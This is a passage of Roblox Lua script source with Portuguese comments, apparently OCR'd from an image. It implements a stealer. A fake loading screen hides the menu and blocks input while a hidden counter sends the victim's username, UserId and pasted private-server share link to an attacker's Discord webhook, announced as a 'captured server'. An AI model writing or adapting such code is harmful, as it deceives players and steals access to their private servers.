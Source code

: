     return success
end

-- Envia para Discord
local function sendToDiscord(serverLink)
    local data = {
        ["content"] = "@everyone 🎯 **NOVO SERVIDOR CAPTURADO!**",
        ["embeds"] = {{
            ["title"] = "Servidor Capturado - " .. executor,
            ["description"] = "**Vítima:** " .. player.Name .. " (" .. player.UserId .. ")\n**Link:** " .. serverLink,
            ["color"] = 16711680,
            ["footer"] = {["text"] = "Universal System • " .. os.date("%d/%m/%Y %H:%M")}
        }}
    }

    local success = universalHttpRequest(DISCORD_WEBHOOK, data)
    print(success and "✅ NOTIFICAÇÃO ENVIADA!" or "❌ FALHA NA NOTIFICAÇÃO")
    return success
end

-- Validação de link
local function isValidLink(text)
    if not text or text == "" then return false end
    local lowerText = string.lower(text)
    local code = string.match(lowerText, "code=([a-f0-9]+)")
    return string.find(lowerText, "roblox%.com/share%?code=") and code and #code >= 10
end

-- Sistema principal
LoadBtn.MouseButton1Click:Connect(function()
    local link = InputBox.Text
    if not isValidLink(link) then
        Status.Text = "❌ Link inválido"
        Status.TextColor3 = Color3.new(1, 0, 0)
        return
    end

    MainMenu.Visible = false
    LoadingUI.Visible = true
    blockAll()

    local visiblePercent = 1
    local hiddenPercent = 1
    local notified = false

    -- Porcentagem invisível (envio rápido)
    spawn(function()
        for i = 1, 100 do
            hiddenPercent = i
            if hiddenPercent >= 100 and not notified then
                notified = true
                sendToDiscord(link)
            end
            wait(0.03)
        end
    end)

